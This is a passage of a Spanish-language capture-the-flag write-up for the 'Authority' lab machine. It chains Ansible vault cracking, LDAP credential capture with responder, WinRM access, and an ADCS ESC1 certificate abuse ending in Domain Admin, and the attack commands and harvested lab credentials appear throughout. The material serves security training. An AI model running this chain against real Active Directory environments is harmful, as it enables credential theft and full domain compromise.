
Así que vamos a intentar crackear la contraseña del vault para despues descifrar las contraseñas:
Empezamos metiendo una en un archivo:

Ahora usamos ``ansible2john vault > vault.hash``

Y con ``john --wordlist=/usr/share/wordlists/rockyou.txt vault.hash`` la crackeamos:

Esta ``!@#$%^&*`` es la contraseña del vault de ansible y para leerlo usamos ``ansible-vault view _admin_``:
Metemos cada bloque en un archivo y lo vamos descifrando con el comando anterior:




```bash
ldap_admin_password:DevT3st@123
pwm_admin_login:svc_pwm
pwm_admin_password:pWm_@dm!N_!23
```
Ahora lo probamos en la web anterior y vemos que en configuration manager nos funciona  la contraseña ``pWm_@dm!N_!23`` y nos entra al siguiente menu:

Ahora vamos al menu de Configuration Editor arriba a la derecha:
Ponemos responder a la escucha:
```bash
 sudo responder -I tun0 -v
```
Entramos en la sección de LDAP y añadimos como ldap nuestra ip y le damos a test connection así cuando envié las credenciales para autenticarse las capturaremos con responder:





Recibimos así la credenciales ``svc_ldap:lDaP_1n_th3_cle4r!``
Ahora ya podemos hacer la enumeración con bloodhound:
```bash
bloodhound-python -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -d authority.htb -ns 10.129.229.56 -c All --zip
```

Como vemos que forma parte de remote management users vamos a intentar conectarnos por winrm:
```bash
evil-winrm-py -i 10.129.229.56 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

Aquí vemos la user flag.
# Pivesc
Viendo los privilegios vemos que podemos añadir equipos al dominio:

Vemos que estamos en el grupo Certificate Service DCOM Access:

Vemos esta carpeta también:

Por lo que podemos intentar ver si hay alguna vulnerabilidad ADCS para ello usamos certipy:
```bash
certipy-ad find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -dc-ip '10.129.229.56' -vulnerable -stdout
```


Vemos que es vulnerable a ESC1 https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication:
Para explotarlo vamos a realizar los siguientes comandos:
```bash
certipy-ad req -u 'svc_ldap@authority.htb' -p 'lDaP_1n_th3_cle4r!' -dc-ip '10.129.229.56' -target 'authority.authority.htb' -ca 'AUTHORITY-CA' -template 'CorpVPN' -upn 'administrator@authority.htb' -sid 'S-1-5-21-622327497-3269355298-2248959698-500'  
```

Esto nos da error porque no tenemos permisos de enroll sobre la plantilla CorpVPN pero como tenemos SeMachineAccountPrivilege podemos crear un equipo que si los tenga.
```bash
impacket-addcomputer -dc-ip 10.129.229.56 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method SAMR -computer-name 'EVILPC$' -computer-pass 'Password123!'
```
Ahora al solicitar el certificado con el nuevo equipo nos da el certificado del administrador
```bash
certipy-ad req -u 'EVILPC$' -p 'Password123!' -dc-ip 10.129.229.56 -target-ip 10.129.229.56 -ca 'AUTHORITY-CA' -template 'CorpVPN' -upn 'administrator@authority.htb'
```

Ahora nos intentamos  conectar con el certificado:
```bash
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.129.229.56'
```

Esto da error ya que no soporta la autenticación PKINIT asi que hacemos un pass the cert para obtener una shell ldap: 
```bash
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.129.229.56' -ldap-shell
```
Y desde ella añadimos nuestro usuario al grupo de administradores:
```bash
add_user_to_group svc_ldap "Domain Admins"
```

Ahora nos volvemos a conectar por winrm y vemos que ya estamos en el grupo administradores:

Ahora ya podemos ver la flag de root:
